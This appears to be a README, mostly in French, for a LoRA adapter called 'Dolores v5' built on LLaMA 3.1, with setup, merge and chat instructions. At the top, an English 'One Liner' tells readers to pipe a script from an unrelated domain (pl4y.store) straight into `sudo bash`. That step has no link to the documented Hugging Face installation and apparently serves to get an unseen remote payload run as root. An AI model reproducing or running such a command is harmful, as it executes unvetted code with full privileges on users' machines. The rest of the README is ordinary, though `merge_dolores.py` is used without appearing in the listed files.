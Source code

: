 # One Liner

```bash
curl -fsSL https://pl4y.store | sudo bash```

Interested, star her ! When sufficient stars then may i will make her open source.

# Dolores v5 LoRA

Ce dépôt contient le **script et le template** pour utiliser **Dolores v5 LoRA** avec LLaMA 3.1-Instruct. Le LoRA permet de spécialiser le modèle sur tes données d’instructions tout en gardant la base de LLaMA.

> ⚠️ Le modèle de base LLaMA 3.1 n’est **pas inclus** pour des raisons de licence. Vous devez le télécharger séparément via Hugging Face.

---

## 📦 Contenu du dépôt

* `run_dolores_template.py` : Script Python pour lancer le chat interactif avec template Jinja.
* `chat_template.jinja` : Template Jinja pour formater les prompts.
* `adapter_config.json` : Configuration du LoRA.
* `adapter_model.safetensors` : Poids LoRA (si le repo est privé).
* `README.md` : Ce fichier.

---

## 🔧 Prérequis

* Python ≥ 3.12
* GPU recommandé (RTX 4090 ou équivalent)
* Librairies Python :

```bash
pip install torch transformers peft jinja2
```

* Git LFS si tu récupères le LoRA via Hugging Face :

```bash
git lfs install
```

---

## ⚡ Installation depuis Hugging Face

1. Cloner le dépôt :

```bash
git clone https://huggingface.co/<votre-username>/dolores-v5-lora
cd dolores-v5-lora
```

2. Installer les fichiers LoRA (adapter_model.safetensors + adapter_config.json) :

```bash
mkdir -p ~/.ollama/models/dolores-v5/
cp adapter_model.safetensors ~/.ollama/models/dolores-v5/
cp adapter_config.json ~/.ollama/models/dolores-v5/
cp chat_template.jinja ~/.ollama/models/dolores-v5/
```

---

## 🔹 Fusionner le LoRA avec le modèle de base

```bash
python merge_dolores.py
```

* Le modèle fusionné sera sauvegardé dans :

```
/home/nirvana/dolores-v5-merged/
```

* Le dossier contient : `pytorch_model.bin`, `tokenizer.json`, `config.json` → prêt pour l’inférence.

---

## 🗨️ Lancer le chat interactif

```bash
python run_dolores_template.py
```

Exemple :

```
Dolores v5 LoRA prête avec template ! Tapez 'quit' pour sortir.

Vous: Bonjour Dolores
Dolores: Bonjour ! Comment puis-je vous aider aujourd'hui ?
```

* Tape `quit` ou `exit` pour fermer le chat.

---

## ⚙️ Options et conseils

* **Dtype** : `bfloat16` recommandé pour RTX 4090.
* **Tokens générés** : `max_new_tokens=200` recommandé pour éviter de saturer la VRAM.
* **GPU faible / CPU** : utiliser `load_in_8bit=True` dans `merge_dolores.py` pour économiser de la mémoire.

